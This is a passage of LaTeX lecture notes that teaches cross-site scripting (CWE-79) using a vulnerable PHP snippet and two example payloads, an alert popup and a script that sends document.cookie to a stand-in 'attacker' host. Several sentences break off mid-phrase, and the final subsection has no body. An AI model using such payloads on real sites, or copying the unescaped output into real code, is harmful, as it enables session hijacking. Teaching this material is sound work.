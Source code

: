 \begin{parag}{CWE-79: Cross-site Scripting (XSS)}
    Also called "\textit{Improper Neutralization of Input During Web Page Generation}". This is the same weakness in spirit, but here the adversarial input is not used to run a command, it is used to .

    Let us take the same form, but now using the \texttt{GET} method (so the parameter is in the URL after the \texttt{?}). The server uses the input to personalize the page with a warm welcome (e.g., "\textit{Welcome Rick}" if the input is \texttt{Rick})
    \begin{lstlisting}[language=PHP]
$username = $_GET['userName'];
echo '<div class="header"> Welcome, ' . $username . '</div>';
    \end{lstlisting}
    Again, there is . What happens if I browse the page as
    \begin{center}
        \texttt{http://trustedSite.com/welcome.php?userName=<script>alert("You've been attacked!");</script>}
    \end{center}
    The HTML tags are included as is in the page. When the browser renders the page and finds the tag \texttt{<script></script>}, it interprets the content as JavaScript code and executes it: a popup opens saying "\textit{You've been attacked!}".
    \begin{subparag}{Stealing cookies}
        An alert is rather innocuous (it could already be more dangerous if the popup asked the user for their password and sent it to the attacker). But now consider
        \begin{center}
            \texttt{http://trustedSite.com/welcome.php?userName=<script>location="http://attacker/submit?cookie=" + document.cookie;</script>}
        \end{center}
        Here the script makes the browser go to the attacker's server, with as parameter \texttt{document.cookie}, i.e., . These cookies may contain sensitive information (login, personalization parameters) or security-relevant information, e.g., the session cookie used to resume a session without asking for the login and password again. With it, the attacker can log in as the victim.
    \end{subparag}
    \begin{subparag}{How XSS is used to attack a victim}
        So a typical XSS attack would go as follows

\end{subparag}
\end{parag}
